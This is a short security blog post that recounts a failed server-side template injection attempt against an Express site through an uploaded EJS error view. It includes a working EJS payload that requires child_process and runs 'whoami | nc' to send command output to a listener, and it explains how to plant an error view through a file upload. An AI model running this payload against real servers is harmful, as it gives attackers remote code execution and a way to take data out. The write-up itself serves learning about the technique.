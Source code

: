 ```yaml
---
layout: post
title:  "An unsuccessful expressjs SSTI story"
tags: ssti,expressjs
---
```


## Recon
Response Header `x-powered-by: express`.  An expressjs website.

modify a request packet in burp. We get an error.
`Failed to lookup view "error" in views directory /[redacted]/[dir]` 

We get the dir of the view. And you can upload arbitrary file to the website.

## Can we SSTI

At first, I want to upload a normal shell. It can't be executed.
After I got the error message, I thought maybe we can upload a view file. And then we trigger the error request. Express will look up for the error view which is uploaded by us. So what can we do ?

After reading the Jade technique[1], I think we can use ssti to get a shell.

First we setup the enviroment. Then we get the examples[2] running.

404.ejs
```
<% include error_header %>
<h2>Cannot find <%= url %></h2>
<% include footer %>
```
So we can put nodejs code between `<%` and `%>`.
We use the code from the Jade example. Modify it to adjust the ejs template engine.


```
<% include error_header %>
<h2>Cannot find <%= url %></h2>
<% include footer %>

<% var x = process.mainModule.require;
x = x('child_process'); 
x.exec('whoami | nc 127.0.0.1 8080');
%>
```

Then we listen on port 8080 with python. Visiting the 404 url, we get the name on the python terminal. So we can use template to inject nodejs code, then we can get a shell.

Because `require` is not a global variable, we need to use `process.mainModule.require` to get it. The rest is normal nodejs code. `require('child_process').exec('whoami')`

I upload the file with the name 'error.ejs'. We don't get anything.

I thought maybe the extension is not 'ejs'. Because you can define it in the code.
I tried `.jade` and `.html`. Still we get nothing.

Because the dir is not public, I can't confirm whether it has been uploaded sucessfully or not. 

So this is an unscucessful expressjs SSTI story. But I learned that we can do SSTI in expressjs+ejs too.


[1] [Server-Side Template Injection](https://portswigger.net/research/server-side-template-injection)  
[2] [Expressjs  error pages example](https://github.com/expressjs/express/tree/master/examples/error-pages)
